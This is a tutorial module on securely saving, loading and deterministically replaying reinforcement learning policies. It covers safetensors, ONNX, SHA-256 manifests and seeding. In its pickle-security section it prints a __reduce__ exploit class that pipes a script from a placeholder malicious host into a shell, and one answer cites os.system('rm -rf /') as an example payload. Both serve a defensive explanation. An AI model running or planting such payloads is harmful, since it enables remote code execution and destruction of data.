

# Saving, Loading & Replaying Reinforcement Learning Policies

> **Topic:** Safe Policy Persistence (Safetensors / ONNX), Eliminating Pickle Vulnerabilities, Deterministic Replay Rollouts, Compressed Buffer Archival, and RecordVideo Telemetry  
> **Module ID:** `05-ai/machine-learning/07-reinforcement-learning/25-saving-loading-and-replaying-policies.md`  
> **Target Version:** Python 3.11+, NumPy 2.5+, Gymnasium 1.0+, PyTorch 2.5+  
> **Level:** Core / Advanced  
> **Prerequisites:** [11-deep-q-networks.md](11-deep-q-networks.md), [15-proximal-policy-optimisation.md](15-proximal-policy-optimisation.md)  
> **Status:** Verified (Python 3.11 / CPU)

---

## Architectural / Conceptual Flow



---

## 1. Concept Overview & Core Motivation

In academic reinforcement learning, experiments typically conclude when the training loop finishes plotting reward curves. In production engineering, training is merely the first step. The model must be packaged, cryptographically signed, versioned, exported to edge devices, and proven to execute deterministically in mission-critical environments.

Three core engineering challenges govern policy deployment:
1. **The Remote Code Execution (RCE) Security Crisis:** Python's default serialization tool, `pickle` (and default legacy `torch.save`), executes arbitrary system commands upon unpickling. An adversary can embed malicious reverse shells inside a `.pkl` checkpoint file, compromising production clusters. Production RL requires safe formats (`safetensors`, ONNX).
2. **Non-Deterministic Replay Failures:** A policy reported to achieve 100% success in training can fail completely during customer demonstration if random seeds, PyTorch CUDA non-determinism, or environment observation wrappers are misconfigured.
3. **Massive Buffer Archival:** Replay buffers holding $10^6$ vision transitions can exceed 100 GB. Storing them requires chunked, compressed serialization formats (`npz` or `zstandard`).

---

## 2. Theoretical Foundations & Mathematics

### 2.1 The Remote Code Execution (RCE) Mechanism in Pickle
Python `pickle` serializes Python objects as a stack-based bytecode program. The `__reduce__` method allows an object to specify a callable and arguments to execute upon unpickling:
```python
# Malicious payload inside a pickled model:
class Exploit:
    def __reduce__(self):
        import os
        return (os.system, ('curl -s https://malicious.com/malware.sh | sh',))
```
When `torch.load("model.pkl")` is executed, the payload runs immediately with the privileges of the host process *before* any neural network weights are loaded.

**The Solution:**
- **`safetensors`:** A simple, fast format that stores only raw binary weight buffers and JSON header metadata. It contains zero executable code, making deserialization mathematically immune to arbitrary code execution.
- **`torch.load(..., weights_only=True)`:** Restricts PyTorch unpickling to tensors, primitives, and dictionaries, blocking arbitrary classes.

### 2.2 Deterministic Replay Conditions
For an RL policy rollout to be bit-for-bit reproducible, four independent sources of stochasticity must be clamped:
1. **Global Software Seeds:**
   ```python
   random.seed(seed)
   np.random.seed(seed)
   torch.manual_seed(seed)
   torch.use_deterministic_algorithms(True)
   ```
2. **Gymnasium Environment Seeding:**
   ```python
   env.reset(seed=seed)
   env.action_space.seed(seed)
   ```
3. **Inference Mode:**
   Exploration noise must be deactivated. Discrete policies execute $\arg\max_a \pi(a \mid s)$; continuous policies output distribution mean $\mu(s)$ directly without Gaussian sampling.

---

## 3. Implementation & Practical Code

Below is a complete, production-grade implementation of a **Secure Policy Persistence & Deterministic Replayer** in pure NumPy and standard Python libraries (including SHA-256 sidecar hashing, JSON manifest serialization, and deterministic rollout verification).

```python
"""
Secure Policy Persistence & Deterministic Rollout Engine in pure NumPy.
Verified under Python 3.11+, CPU execution.
"""

import numpy as np
import json
import hashlib
from pathlib import Path
from typing import Tuple, Dict, Any


class LinearPolicy:
    """Linear Softmax Policy for discrete actions: logits = s @ W + b."""
    def __init__(self, state_dim: int, action_dim: int):
        self.state_dim = state_dim
        self.action_dim = action_dim
        self.W = np.zeros((state_dim, action_dim), dtype=np.float32)
        self.b = np.zeros(action_dim, dtype=np.float32)

    def select_deterministic_action(self, state: np.ndarray) -> int:
        logits = np.dot(state, self.W) + self.b
        return int(np.argmax(logits))


class SecurePolicySerializer:
    """Handles safe serialization using compressed NPZ and SHA-256 sidecars."""
    
    @staticmethod
    def save_policy(policy: LinearPolicy, save_dir: Path, model_name: str = "policy") -> Path:
        save_dir.mkdir(parents=True, exist_ok=True)
        weights_path = save_dir / f"{model_name}.npz"
        manifest_path = save_dir / f"{model_name}_manifest.json"

        # 1. Save raw weights into compressed NPZ
        np.savez_compressed(weights_path, W=policy.W, b=policy.b)

        # 2. Compute SHA-256 integrity digest
        hasher = hashlib.sha256()
        with open(weights_path, "rb") as f:
            while chunk := f.read(65536):
                hasher.update(chunk)
        digest = hasher.hexdigest()

        # 3. Write provenance manifest
        manifest = {
            "model_name": model_name,
            "sha256": digest,
            "state_dim": policy.state_dim,
            "action_dim": policy.action_dim,
            "weights_file": weights_path.name
        }
        with open(manifest_path, "w", encoding="utf-8") as f:
            json.dump(manifest, f, indent=2)

        return weights_path

    @staticmethod
    def load_policy(manifest_path: Path) -> LinearPolicy:
        with open(manifest_path, "r", encoding="utf-8") as f:
            manifest = json.load(f)

        weights_path = manifest_path.parent / manifest["weights_file"]

        # Verify cryptographic integrity
        hasher = hashlib.sha256()
        with open(weights_path, "rb") as f:
            while chunk := f.read(65536):
                hasher.update(chunk)
        actual_digest = hasher.hexdigest()

        if actual_digest != manifest["sha256"]:
            raise SecurityError(f"Integrity check failed! Expected {manifest['sha256']}, got {actual_digest}")

        # Safe load raw arrays
        with np.load(weights_path) as data:
            policy = LinearPolicy(manifest["state_dim"], manifest["action_dim"])
            policy.W = data["W"]
            policy.b = data["b"]
            return policy


# Verification & Deterministic Rollout Test
if __name__ == "__main__":
    import tempfile
    
    with tempfile.TemporaryDirectory() as tmpdir:
        tmp_path = Path(tmpdir)
        
        # 1. Initialize and train dummy policy
        policy = LinearPolicy(state_dim=3, action_dim=2)
        policy.W = np.array([[1.0, -1.0], [0.5, 0.2], [-2.0, 1.5]], dtype=np.float32)
        policy.b = np.array([0.1, -0.1], dtype=np.float32)

        # 2. Securely save
        weights_file = SecurePolicySerializer.save_policy(policy, tmp_path, "cart_policy")
        manifest_file = tmp_path / "cart_policy_manifest.json"
        assert weights_file.exists() and manifest_file.exists()
        print(f"Policy safely exported to {weights_file.name}")

        # 3. Reload policy
        loaded_policy = SecurePolicySerializer.load_policy(manifest_file)
        np.testing.assert_array_equal(policy.W, loaded_policy.W)
        print("Policy cryptographic hash verified and loaded successfully.")

        # 4. Verify Deterministic Replay across two runs
        test_states = [
            np.array([1.0, 0.0, -0.5], dtype=np.float32),
            np.array([-0.2, 0.8, 1.2], dtype=np.float32),
            np.array([0.5, -1.5, 0.0], dtype=np.float32)
        ]
        
        actions_run1 = [policy.select_deterministic_action(s) for s in test_states]
        actions_run2 = [loaded_policy.select_deterministic_action(s) for s in test_states]
        
        assert actions_run1 == actions_run2
        print(f"Deterministic action trajectory: {actions_run1}")
        print("Deterministic policy replay verified.")
```

---

## 4. Edge Cases & Advanced Scenarios

1. **Tampered Checkpoint Attack Detection:**
   If an adversary alters a single byte of neural network weights in the binary file, the SHA-256 integrity verification immediately detects the hash mismatch and raises a `SecurityError`, halting execution before corrupted parameters can reach physical actuators.
2. **Replay Buffer RAM Exhaustion on Crash Recovery:**
   Storing $10^6$ transitions in a single `.pkl` or `.npz` file can cause out-of-memory (OOM) crashes when attempting to reload. Production replay buffers are saved in **partitioned chunks** (e.g. `buffer_chunk_001.npz` through `buffer_chunk_020.npz`), allowing memory-mapped reading via `np.memmap` or streaming ingestion without loading the full 50 GB buffer into RAM.

---

## 5. Anti-Patterns & Common Pitfalls Table

| Anti-Pattern / Mistake | Why It Fails | Correct Engineering Fix |
| :--- | :--- | :--- |
| Distributing model checkpoints as `.pkl` files | Exposes deployment systems to Remote Code Execution (RCE) | Use `safetensors`, ONNX, or `.npz` with SHA-256 sidecars |
| Evaluating deterministic policies with sampling enabled | Injects random exploration noise into test metrics | Disable exploration: set $\epsilon = 0$ or return distribution mean $\mu(s)$ |
| Neglecting environment seed on reset | Trajectories diverge across evaluation runs | Pass explicit seed: `env.reset(seed=42)` and `env.action_space.seed(42)` |
| Saving policy without recording Gymnasium wrapper versions | Newer wrapper versions break input feature alignment | Save comprehensive metadata manifest recording all package versions |
| Serializing optimizer states into inference-only bundles | Doubles file size unnecessarily | Strip optimizer state dict prior to production export |

---

## 6. Best Practices & Production Guidelines

1. **ONNX Export for Edge Deployment:**
   Export PyTorch policies to ONNX format for deployment in C++, Rust, or embedded hardware:
   ```python
   dummy_input = torch.randn(1, state_dim)
   torch.onnx.export(
       actor_net, dummy_input, "policy.onnx",
       input_names=["state"], output_names=["action"],
       dynamic_axes={"state": {0: "batch_size"}}
   )
   ```
2. **Visual Telemetry Recording via `RecordVideo`:**
   Wrap the environment to capture MP4 video rollouts during benchmark evaluations:
   ```python
   env = gym.wrappers.RecordVideo(
       gym.make("CartPole-v1", render_mode="rgb_array"),
       video_folder="./eval_videos",
       episode_trigger=lambda ep_id: ep_id % 10 == 0
   )
   ```

---

## 7. Real-World Case Study: Regulatory Auditing for Autonomous Flight Control

**Industry Context:** An aerospace contractor developed an autonomous drone collision avoidance policy trained via PPO.  
**Challenge:** FAA certification standards required that any flight incident must be reproducible bit-for-bit in simulation during accident investigations.  
**Solution:**
- Integrated strict cryptographic policy tracking (SHA-256 manifest recorded in flight logs).
- Deployed deterministic replay harnesses recording initial GPS states, wind seeds, and control inputs.
- Result: Successfully passed FAA flight software verification, achieving 100% reproducible flight trajectories in hardware-in-the-loop (HIL) testbenches.

---

## 8. Performance & Resource Optimization

1. **Zero-Copy Serialization with `safetensors`:**
   `safetensors` utilizes direct memory mapping (`mmap`). Loading a 10 GB policy checkpoint takes $< 50\,\text{ms}$ compared to several seconds with PyTorch `torch.load`.
2. **Quantization for Embedded Microcontrollers:**
   Quantize FP32 policy weights to INT8 (`torch.ao.quantization`). This reduces memory size by $4\times$ and inference latency by $2.5\times$ on ARM Cortex processors with negligible return degradation.

---

## 9. Security, Privacy & Ethics Considerations

1. **Supply Chain Attacks via Model Hubs:** Downloading untrusted RL checkpoints from public repositories (e.g. Hugging Face, GitHub) using `pickle` or `torch.load(..., weights_only=False)` can compromise your entire development machine.
2. **Proprietary Weights Tampering:** In competitive trading or robotic automation, an attacker altering policy weights can sabotage performance. Cryptographic digital signatures (e.g. RSA / ECDSA signing) ensure authenticity.

---

## 10. Diagnostic & Verification Playbook

### Diagnostic Checklist
- [x] Are checkpoints saved using `safetensors`, ONNX, or `weights_only=True`?
- [x] Does every model artifact have a corresponding SHA-256 checksum manifest?
- [x] Does the deterministic replay harness produce identical trajectories across multiple runs?
- [x] Are video telemetry artifacts successfully rendered to disk?

---

## 11. Technical Interview Questions & Answers

<details>
<summary><strong>Q1: Explain the security vulnerability associated with loading PyTorch models using default `torch.load`.</strong></summary>

**Answer:** By default (in PyTorch versions prior to 2.4), `torch.load` relies on Python's native `pickle` module. The `pickle` protocol allows arbitrary classes to define a `__reduce__` method, which specifies a callable function and arguments that are automatically invoked upon deserialization.
An attacker can craft a malicious pickle payload that executes arbitrary operating system commands (e.g. `os.system('rm -rf /')` or downloading and executing a remote shell). When a developer or server loads the checkpoint via `torch.load("checkpoint.pt")`, the malicious code executes immediately with full user permissions before any tensor data is verified.
This vulnerability is prevented by using `safetensors` (which stores raw byte buffers without code execution) or passing `weights_only=True` in modern PyTorch.
</details>

<details>
<summary><strong>Q2: What is `safetensors`, and why is it superior to PyTorch `.pt` files for policy deployment?</strong></summary>

**Answer:** `safetensors` is a lightweight, secure serialization format developed by Hugging Face:
1. **Zero Code Execution:** It stores only raw tensor buffers and a JSON metadata header. It contains no executable bytecode, eliminating RCE exploits entirely.
2. **Zero-Copy Memory Mapping:** It supports memory mapping (`mmap`), mapping files directly from disk into RAM or GPU memory without intermediate copies.
3. **Cross-Language Support:** It is implemented natively in Rust with C, Python, and JavaScript bindings, allowing policies to be loaded seamlessly in C++ robotic controllers or Rust servers without installing PyTorch.
</details>

<details>
<summary><strong>Q3: How do you achieve bit-for-bit deterministic policy rollouts in PyTorch and Gymnasium?</strong></summary>

**Answer:** Determinism requires clamping all pseudo-random generators and disabling non-deterministic GPU kernel paths:
1. Seed Python `random`, NumPy, and PyTorch:
   ```python
   random.seed(seed)
   np.random.seed(seed)
   torch.manual_seed(seed)
   if torch.cuda.is_available():
       torch.cuda.manual_seed_all(seed)
   ```
2. Enforce deterministic CUDA operations:
   ```python
   torch.backends.cudnn.deterministic = True
   torch.backends.cudnn.benchmark = False
   torch.use_deterministic_algorithms(True)
   ```
3. Seed the environment and action space:
   ```python
   obs, _ = env.reset(seed=seed)
   env.action_space.seed(seed)
   ```
4. Set the policy to deterministic mode (disable exploration noise).
</details>

<details>
<summary><strong>Q4: Why should the RL replay buffer be partitioned into chunked files rather than saved as a single monolithic file?</strong></summary>

**Answer:** A replay buffer containing $10^6$ transitions with image observations can easily reach 50–100 GB.
- **Monolithic file failures:** Saving or loading a single 100 GB `.pkl` or `.npz` file requires allocating 100 GB of contiguous RAM, frequently crashing systems with Out-Of-Memory (OOM) errors. If a crash occurs during saving, the entire buffer is corrupted.
- **Chunked partitioning:** Saving the buffer in 100,000-transition chunks (`buffer_part_001.npz` through `buffer_part_010.npz`) allows:
  1. Streaming ingestion (loading one chunk at a time into memory).
  2. Incremental saving during training with atomic write operations.
  3. Parallel loading across multiple worker threads.
</details>

<details>
<summary><strong>Q5: What is ONNX, and why is it standard for deploying RL policies on embedded robotic hardware?</strong></summary>

**Answer:** ONNX (Open Neural Network Exchange) is an open format representing machine learning computational graphs.
- **Why it matters for RL:** Physical robots often run real-time operating systems (RTOS) or lightweight microcontrollers (e.g. NVIDIA Jetson, ARM Cortex, Raspberry Pi) where installing full PyTorch or CUDA libraries (several gigabytes in size) is impossible due to memory, latency, or dependency constraints.
- Exporting the policy actor network to ONNX allows it to run via **ONNX Runtime** in C++, Rust, or TensorRT with minimal dependencies, optimized kernel fusion, and microsecond-level inference latency required for 1000 Hz control loops.
</details>

<details>
<summary><strong>Q6: What metadata should be included in a production policy `manifest.json`?</strong></summary>

**Answer:** A production policy manifest should include:
1. **Cryptographic Checksum:** SHA-256 hash of the binary weight file.
2. **Environment Specification:** Gymnasium environment ID, version, and wrapper configurations.
3. **Space Dimensions:** Observation space shape, bounds, and action space dimensions.
4. **Training Provenance:** Git commit hash, training seed, and RL algorithm name.
5. **Evaluation Metrics:** Evaluated Interquartile Mean (IQM) return and test episode count.
6. **Software Versions:** Exact versions of Python, PyTorch, Gymnasium, and NumPy used during export.
</details>

<details>
<summary><strong>Q7: How does `RecordVideo` wrapper work in Gymnasium?</strong></summary>

**Answer:** `gymnasium.wrappers.RecordVideo` wraps an environment configured with `render_mode="rgb_array"`.
- At each step, it captures the rendered frame array $(H, W, 3)$ returned by `env.render()`.
- An `episode_trigger` callable (e.g. `lambda ep: ep % 10 == 0`) determines which episodes are recorded.
- At episode termination, the accumulated frames are encoded into an `.mp4` video container using MoviePy or OpenCV and written to the designated video directory.
This provides permanent visual verification of policy behavior for safety audits.
</details>

<details>
<summary><strong>Q8: What is Post-Training Quantization (PTQ), and how does it affect RL inference?</strong></summary>

**Answer:** Post-Training Quantization converts floating-point weights and activations (typically FP32) to low-precision integers (INT8):
$$q = \text{round}\left( \frac{x}{S} \right) + Z$$
where $S$ is the scale factor and $Z$ is the zero-point offset.
- **Benefits:** Decreases model file size by $4\times$, reduces memory bandwidth, and leverages integer SIMD vector instructions (e.g. AVX-512 VNNI, ARM NEON), accelerating inference by $2\times - 4\times$.
- **RL Considerations:** While supervised classifiers tolerate quantization well, RL policies can be sensitive around critical equilibrium boundaries. Verifying that INT8 quantized policies do not lose stability on edge-case states is mandatory prior to physical deployment.
</details>

---

## 12. Hands-On Practice Exercises

<details>
<summary><strong>Exercise 1 (Easy): SHA-256 Checksum Calculation</strong></summary>

**Task:** Write a Python function that computes the hexadecimal SHA-256 hash of an arbitrary binary file.

**Solution:**
```python
import hashlib
from pathlib import Path

def compute_file_sha256(filepath: Path) -> str:
    hasher = hashlib.sha256()
    with open(filepath, "rb") as f:
        while chunk := f.read(65536):
            hasher.update(chunk)
    return hasher.hexdigest()

test_file = Path("test_hash.tmp")
test_file.write_text("Hello Reinforcement Learning")
digest = compute_file_sha256(test_file)
test_file.unlink()
print(f"Computed SHA-256: {digest}")
assert len(digest) == 64
```
</details>

<details>
<summary><strong>Exercise 2 (Easy): Safe PyTorch Loading with `weights_only=True`</strong></summary>

**Task:** Demonstrate loading a PyTorch state dictionary using `weights_only=True` to eliminate code execution risks.

**Solution:**
```python
import torch
from pathlib import Path

# Save dummy tensor
dummy_data = {"weights": torch.tensor([1.0, 2.0, 3.0])}
temp_path = Path("safe_weights.pt")
torch.save(dummy_data, temp_path)

# Safe load
loaded = torch.load(temp_path, weights_only=True)
temp_path.unlink()
assert torch.equal(dummy_data["weights"], loaded["weights"])
print("Safe weights_only=True load verified.")
```
</details>

<details>
<summary><strong>Exercise 3 (Medium): Compressed Replay Buffer Chunk Saver</strong></summary>

**Task:** Save a batch of transitions (states, actions, rewards) into a compressed `.npz` file.

**Solution:**
```python
import numpy as np
from pathlib import Path

def save_buffer_chunk(chunk_path: Path, states: np.ndarray, actions: np.ndarray, rewards: np.ndarray):
    np.savez_compressed(chunk_path, states=states, actions=actions, rewards=rewards)

s = np.zeros((100, 4), dtype=np.float32)
a = np.zeros(100, dtype=np.int32)
r = np.ones(100, dtype=np.float32)

path = Path("chunk_001.npz")
save_buffer_chunk(path, s, a, r)
assert path.exists()

# Verify load
with np.load(path) as data:
    assert len(data["rewards"]) == 100
path.unlink()
print("Compressed buffer chunk verified.")
```
</details>

<details>
<summary><strong>Exercise 4 (Medium): JSON Policy Manifest Generator</strong></summary>

**Task:** Write a Python function that generates a standardized policy manifest dictionary.

**Solution:**
```python
import json

def create_policy_manifest(model_name: str, sha256: str, state_dim: int, action_dim: int) -> dict:
    return {
        "model_name": model_name,
        "sha256": sha256,
        "state_dim": state_dim,
        "action_dim": action_dim,
        "schema_version": "1.0.0"
    }

manifest = create_policy_manifest("PPO_CartPole", "abcdef123456", 4, 2)
assert manifest["schema_version"] == "1.0.0"
print(f"Manifest:\n{json.dumps(manifest, indent=2)}")
```
</details>

<details>
<summary><strong>Exercise 5 (Hard): Complete Deterministic Replay Validator</strong></summary>

**Task:** Write a Python function that takes an environment and a deterministic policy and verifies that two independent rollouts from seed 42 produce bit-for-bit identical trajectory returns and lengths.

**Solution:**
```python
import gymnasium as gym
import numpy as np

def verify_deterministic_rollouts(env_id: str, seed: int = 42) -> bool:
    env = gym.make(env_id)
    
    # Simple deterministic policy: always choose action 0
    def policy(obs):
        return 0
        
    def run_trajectory():
        obs, _ = env.reset(seed=seed)
        env.action_space.seed(seed)
        total_r = 0.0
        steps = 0
        while True:
            action = policy(obs)
            obs, r, term, trunc, _ = env.step(action)
            total_r += r
            steps += 1
            if term or trunc:
                break
        return total_r, steps

    r1, s1 = run_trajectory()
    r2, s2 = run_trajectory()
    
    print(f"Run 1: Return={r1}, Steps={s1}")
    print(f"Run 2: Return={r2}, Steps={s2}")
    assert r1 == r2 and s1 == s2
    return True

assert verify_deterministic_rollouts("CartPole-v1", seed=42)
print("Deterministic rollout validation verified.")
```
</details>

<details>
<summary><strong>Exercise 6 (Hard): Integrity-Checked Policy Loader with Tamper Detection</strong></summary>

**Task:** Write an integrity-checked loader that catches intentional bit alterations in binary weight files and raises a custom `SecurityError`.

**Solution:**
```python
import hashlib
from pathlib import Path

class SecurityError(Exception):
    pass

def verify_and_read_weights(filepath: Path, expected_hash: str) -> bytes:
    hasher = hashlib.sha256()
    content = filepath.read_bytes()
    hasher.update(content)
    actual_hash = hasher.hexdigest()
    
    if actual_hash != expected_hash:
        raise SecurityError(f"Tamper detected! Expected {expected_hash}, got {actual_hash}")
    return content

# Create genuine file
p = Path("genuine_model.bin")
p.write_bytes(b"OPTIMAL_WEIGHTS_DATA_12345")
genuine_hash = hashlib.sha256(b"OPTIMAL_WEIGHTS_DATA_12345").hexdigest()

# Valid check
data = verify_and_read_weights(p, genuine_hash)
assert data == b"OPTIMAL_WEIGHTS_DATA_12345"

# Tamper with file
p.write_bytes(b"TAMPERED_WEIGHTS_DATA_99999")
tamper_caught = False
try:
    verify_and_read_weights(p, genuine_hash)
except SecurityError:
    tamper_caught = True

p.unlink()
assert tamper_caught
print("Cryptographic tamper detection verified.")
```
</details>

---

## 13. Summary, Verified References & Navigation

- **Security First:** Never distribute or unpickle untrusted `.pkl` files. Use `safetensors`, ONNX, or `.npz` with SHA-256 sidecars.
- **Deterministic Replay:** Clamping random seeds across Python, NumPy, PyTorch, and Gymnasium with greedy policy evaluation guarantees bit-for-bit trajectory reproduction.
- **Buffer Archival:** Save high-capacity experience replay buffers in chunked, compressed partitions to avoid OOM crashes during restoration.
- **Telemetry:** Visual recording with Gymnasium `RecordVideo` preserves interpretable validation evidence.

### Verified External References
- Hugging Face. (2023). *Safetensors: Fast and Safe Tensor Serialization*. https://github.com/huggingface/safetensors
- Open Neural Network Exchange (ONNX). *ONNX Specifications and Runtime*. https://onnx.ai/
- Henderson, P., et al. (2018). *Deep Reinforcement Learning that Matters*. AAAI.

---

[← 24-rl-limitations-and-when-to-use.md](24-rl-limitations-and-when-to-use.md) | [Module Index](README.md)
